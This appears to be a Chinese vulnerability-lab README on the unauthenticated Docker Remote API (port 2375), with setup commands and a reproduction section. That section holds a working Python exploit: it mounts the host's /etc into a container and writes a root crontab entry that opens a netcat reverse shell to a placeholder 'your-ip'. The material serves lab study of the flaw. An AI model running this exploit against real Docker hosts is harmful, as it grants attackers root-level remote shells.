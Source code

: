 # docker daemon api 未授权访问漏洞

参考链接：

- http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

## 漏洞环境

编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

利用方法是，我们随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

写入crontab文件，成功反弹shell：

![](1.png)

